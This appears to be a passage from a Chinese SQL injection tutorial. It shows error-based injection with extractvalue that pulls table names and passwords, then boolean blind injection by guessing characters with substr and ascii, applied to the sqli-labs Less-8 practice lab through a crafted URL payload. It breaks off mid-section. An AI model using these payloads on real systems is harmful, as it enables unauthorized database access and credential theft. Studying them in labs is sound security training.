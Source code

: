 #### extractvalue报错注入

```
mysql> select extractvalue(1, concat(0x5c,(select table_name from information_schema.tables where table_schema=database() limit 3,1)));
ERROR 1105 (HY000): XPATH syntax error: '\users'
```

- 获取字段

```
mysql> select extractvalue(1, concat(0x5c,(select password from users limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '\I-kill-you'
mysql> select extractvalue(1, concat(0x5c,(select password from users limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '\Dumb'
```

### 基于布尔盲注

通过构造sql语句，通过判断语句是否执行成功来对数据进行猜解。

- 查看表名

```
mysql> select table_name from information_schema.tables where table_schema=database() limit 0,1;
```

![18.png](http://www.myh0st.cn/usr/uploads/2017/12/3577479370.png)

- 获取表名第一个字符

```
mysql> select substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1) m;
```

![19.png](http://www.myh0st.cn/usr/uploads/2017/12/701582161.png)

- 获取表名第一个字符的ASCII

```
mysql> select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)) m;
```

![20.png](http://www.myh0st.cn/usr/uploads/2017/12/3528394909.png)

获取字段名与字段内容原理一样。

以Sqli-labs Less8为例，无论输入什么就只有正确和错误，于是可以判断基于布尔的盲注。

- 先判断当前数据库的长度

```
http://127.0.0.1/sqli-labs/Less-8/?id=1' and length(database())>8 --+
```

发现当值为8的时候，页面就没有显示。那么说明database()的长度是8

- 获取数据库名
